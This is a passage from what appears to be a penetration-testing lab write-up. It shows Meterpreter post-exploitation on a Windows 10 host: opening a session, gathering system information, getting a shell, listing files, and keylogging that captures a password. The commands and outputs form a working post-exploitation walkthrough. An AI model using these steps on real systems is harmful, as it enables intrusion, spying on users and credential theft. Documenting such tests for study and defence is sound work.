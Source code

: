```
msf6 exploit(multi/handler) > sessions -i 1
```

This provided access to the Meterpreter shell, where I executed various commands to demonstrate the level of access obtained.

1) **System Information Gathering**: The sysinfo command revealed detailed information:

```
meterpreter > sysinfo
Computer        : DESKTOP-8L8LKMM
OS              : Windows 10 (10.0 Build 19043)
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

2) **Network Information Gathering**: I obtained network information using various commands, revealing the target's IP addresses, MAC addresses, and network interfaces.

3) **Shell Access**: I gained shell access:

```
meterpreter > shell
Process 10328 created.
Channel 2 created.
Microsoft Windows [Version 10.0.19043.1165]
(c) Microsoft Corporation. All rights reserved.
C:\Users\amshu\Downloads>
```

This provided direct command-line access to the target system.

4) **File System Access**: I accessed the file system and listed directory contents:

```
C:\Users\amshu\Desktop>dir
Volume in drive C has no label.
Volume Serial Number is 6017-91CE

Directory of C:\Users\amshu\Desktop

09/07/2021  11:05 AM    <DIR>          .
09/07/2021  11:05 AM    <DIR>          ..
09/07/2021  11:05 AM               355 Computer - Shortcut.lnk
               1 File(s)            355 bytes
               2 Dir(s)  20,036,415,488 bytes free
```

5) **Keylogging**: I demonstrated keylogging capabilities:

```
meterpreter > keyscan_start
Starting the keystroke sniffer ...
meterpreter > keyscan_dump
Dumping captured keystrokes ...
<Shift>Hello everyone<Shift><Shift><Shift><Shift><Shift>!<Shift> !!<CR>
password <Shift>: admin123
meterpreter > keyscan_stop
Stopping the keystroke sniffer...
```
